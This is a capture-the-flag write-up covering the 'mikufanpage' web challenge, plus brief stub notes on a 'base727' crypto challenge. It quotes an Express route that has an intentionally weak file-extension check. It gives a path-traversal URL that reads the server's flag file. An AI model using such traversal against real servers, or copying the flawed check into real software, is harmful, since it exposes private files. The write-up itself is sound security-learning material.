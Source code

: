 ## web/mikufanpage
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c3380736-c789-4c58-b3b0-b7bb7918dd0b)
### app.js
```
const express = require('express'); 
const path = require('path');
  
const app = express(); 
const PORT = process.env.PORT ?? 3000;

app.use(express.static(path.join(__dirname, 'public')));
  
app.listen(PORT, (err) =>{ 
    if(!err) 
        console.log("mikufanpage running on port "+ PORT) 
    else 
        console.log("Err ", err); 
}); 

app.get("/image", (req, res) => {
    if (req.query.path.split(".")[1] === "png" || req.query.path.split(".")[1] === "jpg") { // only allow images
        res.sendFile(path.resolve('./img/' + req.query.path));
    } else {
        res.status(403).send('Access Denied');
    }
});
```
- we see it just splits by . and checks the second parms is png or jpg which is clearly a weak check
- we do see the structure of source code
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/8133227a-0618-43b6-9a5a-1ef000b4234f)
- so all we need to do is just get the flag file
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/38f4b6a0-8276-4dd3-b53a-e929be09f1ab)
```
view-source:https://mikufanpage.web.osugaming.lol/image?path=miku5.jpg./../flag.txt
```
## crypto/base727
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/f2bc1061-c51c-4481-bf22-4ba608280d37)
- encode() decode() are for string to bytes and vice versa
- bin asci hexlify is for bytes->hex
- https://www.educative.io/answers/what-is-binasciihexlify-in-python
- 
